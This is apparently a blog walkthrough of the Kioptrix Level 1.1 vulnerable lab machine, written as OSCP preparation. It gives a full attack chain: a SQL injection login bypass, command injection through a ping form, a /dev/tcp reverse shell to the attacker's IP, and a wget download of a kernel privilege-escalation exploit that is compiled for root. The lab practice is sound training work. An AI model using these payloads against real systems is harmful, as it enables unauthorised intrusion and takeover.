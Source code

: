 ```yaml
---
layout: post
title: " Kioptrix - Level 1.1"
date: 2020-08-08
ctf: true
excerpt: "Walkthrough for Kioptrix Level 1.1 on Vulnhub"
tags: [OSCP, SQL injection, command execution, privilege escalation]
comments: false
---
```

[Kioptrix]( https://www.vulnhub.com/entry/kioptrix-level-11-2,23/) Level 1.1 is a vulnerable machine found on the [NetSecFocus Trophy Room](https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=0) list which I have been using as preparation for the OSCP. Below is a walkthrough to compromise this machine.

First, after downloading and importing the machine into VMware, I had to figure out the IP address of the machine. I used **netdiscover -i eth0** until I came across the IP of this machine.

![Kioptrix Level 1.1 netdiscover](/assets/img/KioptrixLevel21.png)

Next, I ran **threader3000** and let it run it's suggested nmap scan to enumerate the open ports.

![Kioptrix Level 1.1 threader3000](/assets/img/KioptrixLevel22.png)

![Kioptrix Level 1.1 nmap](/assets/img/KioptrixLevel23.png)

Let's take a look at the websites on ports 80 and 443 to start. The same site comes up asking you to login both over http and https.

![Kioptrix Level 1.1 website](/assets/img/KioptrixLevel24.png)

We know mysql is running on port 3306 based on nmap, so let's try to use basic SQL injection to see if we can bypass authentication. For the username I entered **admin** and for the password I entered **' or 1=1 -- -**

This allowed me to bypass authentication and leads me to a screen that allows me to ping a machine on the network.

![Kioptrix Level 1.1 Basic Admin Console](/assets/img/KioptrixLevel25.png)

Let's enter the following and see what happens: **127.0.0.1;whoami**. This causes another tab to open up, where it shows the results of pinging localhost along with the user on the last line (apache). This confirms that this is open to command injection!

![Kioptrix Level 1.1 command injection](/assets/img/KioptrixLevel26.png)

Open up a new terminal window from your attacker pc and run **nc -nvlp 4444** to start a listener on port 4444.

![Kioptrix Level 1.1 nc listener](/assets/img/KioptrixLevel27.png)

Go back to your web browser, close the newly opened tab with the ping/whoami output, and  go back to the admin web console. Enter **127.0.0.1;bash -i >& /dev/tcp/[attacker ip]/4444 0>&1** and click on submit.

![Kioptrix Level 1.1 command injection reverse shell](/assets/img/KioptrixLevel28.png)

Once submitted, look at your terminal with the netcat listener, you should have a reverse bash shell.

![Kioptrix Level 1.1 reverse shell](/assets/img/KioptrixLevel29.png)

Running **whoami** shows that you are the **apache** user. Running **uname -a** shows that this is using Linux Kernel **2.6.9-55.EL** on an i386 platform.

![Kioptrix Level 1.1 whoami uname -a](/assets/img/KioptrixLevel210.png)

On another terminal window on your attacker pc, run **searchsploit 2.6.x**, and you will find a Local Privilege Escalation exploit as shown below:

![Kioptrix searchsploit Linux Kernel](/assets/img/KioptrixLevel211.png)

Let's run **searchsploit -m 9545** to make a copy of this script in our current directory and run **python3 -m http.server** to serve up a python HTTP server.

![Kioptrix Level 1.1 searchsploit copy python http server](/assets/img/KioptrixLevel212.png)

From your apache shell on the victim computer, run **cd /tmp** followed by **wget http://[attacker ip]:8000/9545.c**

![Kioptrix Level 1.1 wget copy exploit](/assets/img/KioptrixLevel213.png)

Next, run **cat 9545.c** and look at the comments, you will see a section on how to compile this exploit.

![Kioptrix Level 1.1 cat exploit](/assets/img/KioptrixLevel214.png)

To compile this exploit, run **gcc -Wall -o 9545 9545.c**, as the filename we're using is 9545.c instead of linux-sendpage.c. This will create an executable called 9545 in the /tmp folder.

![Kioptrix Level 1.1 compile exploit](/assets/img/KioptrixLevel215.png)

As you can see, this compiled as **9545** and is executable. run **./9545** and you should end up with a root shell!

![Kioptrix Level 1.1 root shell](/assets/img/KioptrixLevel216.png)

That's it! There wasn't any flags I could find like in Level 1, so I don't believe there is one present on this box.
